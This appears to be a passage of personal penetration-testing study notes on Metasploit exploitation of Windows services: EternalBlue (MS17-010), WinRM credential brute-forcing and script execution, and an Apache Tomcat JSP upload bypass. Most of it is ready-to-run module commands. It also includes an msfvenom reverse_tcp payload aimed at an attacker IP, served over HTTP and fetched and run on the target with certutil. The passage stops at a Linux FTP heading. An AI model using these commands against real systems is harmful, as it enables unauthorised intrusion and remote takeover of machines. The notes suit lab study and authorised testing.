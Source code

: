 * MS17-010 - EternalBlue
* used by WannaCry Ransomware campaign
* Affects a wide variety of window
* exploiting this vuln will result in a privileged meterpreter session
* exploitation
    * db_nmap -sV -O <target>
        * verify it is running SMB
    * search type:auxiliary EternalBlue
        * use auxiliary/scanner/smb/smb_ms17_010; set rhosts <target>; run
    * search type:exploit EternalBlue
        * use exploit/windows/smb/ms17_010_eternal_blue; set rhosts; set lhosts; set lport; run
        * results in a meterpreter session
            * getuid --> NT AUTHORITY/SYSTEM

### Exploiting WinRM

* This is covered in windows os attacks
* [[windows_host_based_attacks]]
* runs on 5985/5986
* modules:
    * auxiliary/scanner/winrm/winrm_auth_methods
    * auxiliary/scanner/winrm/winrm_login
        * set USER_FILE common_user.txt; set PASS_FILE unix_password.txt
    * auxiliary/scanner/winrm/winrm_cmd
        * set USERNAME; set PASSWORD; set CMD <cmd>; run
    * exploit/windows/winrm/winrm_script_exec
        * set FORCE_VBS true; run
        * results in a meterpreter session

### Exploiting JAVA web server

* exploiting Apache Tomcat webserver
    * default port 8080
* use exploit/multi/http/tomcat_jsp_upload_bypass
    * set rhosts; run
    * this will result in a cmd shell
* Convert to meterpreter session
    * msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=10.10.80.2 LPORT=1234 -f exe > meterpreter.exe
    * sudo python -m simpleHTTPServer 80
    * setup reverse_tcp listener in msfconsole
        * use multi/handler
        * set lport; set lhosts (same as msfvenom)
        * download payload thourh cmd shell
            * certutil -urlcache -f http://<lhosts>/meterpreter.exe
            * run .\meterpreter.exe
            * will result in a meterpreter session

## Linux Exploitation

### Exploiting FTP
